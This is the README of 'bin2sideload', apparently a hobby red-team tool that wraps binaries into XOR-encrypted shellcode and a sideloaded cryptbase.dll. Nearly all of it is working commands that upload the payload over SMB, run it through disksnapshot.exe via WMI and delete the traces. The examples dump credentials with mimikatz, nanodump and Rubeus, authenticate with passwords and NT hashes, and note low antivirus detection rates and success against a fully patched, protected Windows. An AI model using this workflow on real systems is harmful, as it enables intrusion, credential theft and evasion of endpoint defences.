 # bin2sideload

Create XOR encrypted shellcode and Sideload-able DLL from a PE binary or .NET Assembly. Use linux-based tools like `dll_proxy_exec.py` or nxc to automatically transfer, dll sideload, execute payload, and cleanup. 

For now, the only supported sideloading is `disksnapshot.exe` and `cryptbase.dll`. 
 
![demo](./bin2sideload-demo2.gif)

[Credits](#credit)

This is just a hobby/poc script that was created over a weekend, nothing serious. I just yoinked [@icyguider](https://twitter.com/icyguider)'s scripts and modified it a bit.

## Installation - Docker (Recommended)

```bash 
docker build . -t bin2sideload
docker run -it -v ${PWD}:/shared bin2sideload 
python3 bin2sideload.py -h 
python3 dll_proxy_exec.py -h 
```

## Installation - Standalone (Not recommended) 
- Install donut, mingw-w64, osslsigncode, make, gcc, impacket, and colorama 
```bash 
# Install mingw-w64 and osslsigncode 
sudo apt update -y; sudo apt install mingw-w64 osslsigncode make gcc -y 

# Install donut on /opt. Hardcoded for now. 
cd /opt 
git clone https://github.com/TheWover/donut.git
cd ./donut 
make 

# Python dependencies 
pip3 install impacket; pip3 install colorama 
```

## Usage

0. Prepare PE binary or .NET assembly to execute, copy to current repo's directory 

```bash
git clone <repo>
cd ./bin2sideload
cp <mimikatz.exe> . 
```

1. Use bin2sideload to first create sideload-able DLL and encrypted shellcode. 

- Example: Nanodump to shellcode (image02.png) using XOR key frog, with parameters. 

```bash
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k frog -p='--fork --write c:\windows\tasks\procdmp-test.abc'

[ . . . ]
[+] 6. Zip encrypted shellcode and cryptbase.dll
[+] Final Zip file: go-quwjrjhv.zip
```

2. Use various ways to transfer the Zip file (or individual DLL/shellcode). Using `dll_proxy_exec.py` is recommended. 

### Execute via dll_proxy_exec.py (Recommended)

Use dll_proxy_exec.py to automatically transfer, unzip, sideload/execute the DLL, and cleanup. 

```bash
# Example - creds 
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-ngvnjout.zip -e disksnapshot.exe -output

# Example - NT 
python3 dll_proxy_exec.py administrator@192.168.40.132 -H 2b576acbe6bcfda7294d6bd18041b8fe -z go-ngvnjout.zip -e disksnapshot.exe -output
```

### Execute via manual NXC (outdated, deprecated) 
1. Use nxc to move zip file, unzip, sideload, and cleanup. 
```bash
# Example 

nxc smb 192.168.40.132 -u administrator -p 'Password123!' --local-auth --put-file go-umsvcjae.zip \\windows\\tasks\\go-umsvcjae.zip -x 'powershell.exe -c mkdir c:\windows\tasks\go-umsvcjae ; Expand-Archive -Path c:\windows\tasks\go-umsvcjae.zip -DestinationPath c:\windows\tasks\go-umsvcjae ; rm c:\windows\tasks\go-umsvcjae.zip ; cp c:\windows\system32\disksnapshot.exe c:\windows\tasks\go-umsvcjae\disksnapshot.exe ; c:\windows\tasks\go-umsvcjae\disksnapshot.exe'
```

2. Cleanup
```bash
nxc smb <ip> -u <u> -p <p> -x 'rmdir /s /q c:\windows\tasks\go-umsvcjae'
```

## Examples 
Parameter includes double quotes 
```bash
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k emergencyfrog -p='--fork --write \"c:\windows\space dude wow\procdmp-test.abc\"'
```

Rubeus example 
```bash
python3 bin2sideload.py -i Rubeus.exe -o image02.png -k hi -p='dump /service:krbtgt /consoleoutfile:C:\windows\tasks\ignore-roobas.log'
```

Using the barebones .c template instead of HWBP .cpp template example 
```bash
python3 bin2sideload.py -i mimikatz.exe -o uud5329.tmp -k helloworld -p='\"sekurlsa::logonPasswords\" \"exit\"' --template template.c
```

dll_proxy_exec.py with output 
```bash
# Create mimikatz 
python3 bin2sideload.py -i mimikatz.exe -o image02.png -k hi -p='\"sekurlsa::logonPasswords\" \"exit\"'

# Yeet 
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-ngvnjout.zip -e disksnapshot.exe -output

[DEBUG] Zip file triggered!                                                             

[SMB] Uploading zip file...  
[SMB] Uploaded to: C:\Windows\Tasks\go-ngvnjout.zip                                     

[WMI] Extracting zip file from remote host...
[WMI] Extracted to: C:\Windows\Tasks\go-ngvnjout

[WMI] Executing DLL...

[WMI] Cleaning up files...
[WMI] Deleted: C:\Windows\Tasks\go-ngvnjout.zip and C:\Windows\Tasks\go-ngvnjout

[*] Output: 
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

[ . . . ] 
```

"These work on my machine" 
- real time protection + cloud-based protection, 11/12/2023, fully-patched windows
```bash
# .NET like rubeus, seatbelt
wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Rubeus.exe
wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Seatbelt.exe

python3 bin2sideload.py -i Rubeus.exe -o image02.png -k hi -p='triage /service:krbtgt'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-cunxbhrd.zip -e disksnapshot.exe -output

python3 bin2sideload.py -i Seatbelt.exe -o image02.png -k hi -p='-group=system'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -e disksnapshot.exe -output -z go-jupzvpkh.zip

# PE - mimikatz 
python3 bin2sideload.py -i mimikatz.exe -o image02.png -k hi -p='\"sekurlsa::logonPasswords\" \"exit\"'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-aapcsbvs.zip -e disksnapshot.exe -output

# PE - nanodump 
#    - return no output, but will successfully create the dump anyways
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k hi -p='--duplicate-elevate --fork --write c:\windows\tasks\debug-dump.abc'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -e disksnapshot.exe -output -z go-qlnislox.zip
```

## Help
```
python3 bin2sideload.py -h                                                                                      
usage: bin2sideload.py [-h] -i INPUT -o OUTPUT -k KEY [-p PARAM] [-t THREAD] [--template template]

options:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input PE/.NET Assembly filename
  -o OUTPUT, --output OUTPUT
                        Output shellcode filename
  -k KEY, --key KEY     XOR key in string format
  -p PARAM, --param PARAM
                        Parameters that the input file will run with. Example: -p="--fork --write 'c:\program files\hi'"
  -t THREAD, --thread THREAD
                        Enable donut -t thread execution
  --template template   Template file to use. Default: template.cpp
```


## MISC 
- If there's no output, high chance the EDR solution killed the sideloading process and the thread created by the DLL. 

- At least for static analysis from VT, hwbp template is 5/71 and barebones c template is 3/71 (HUH)

## Credit
Striaght up yoinked from
  - https://github.com/icyguider/LatLoader/tree/main
  - https://github.com/icyguider/MoreImpacketExamples#dll_proxy_execpy
all credits to [@icyguider](https://twitter.com/icyguider)

## TODO 

- Currently kind-of hardcoded `c:\windows\tasks` as the root remote path. Ensure to update bin2sideload and dll_proxy_exec so that they allow specifying random remote paths like `c:\temp\defender`, etc. 
- donut's `-t`, `-x`, `-k` (https://github.com/TheWover/donut#4-usage)
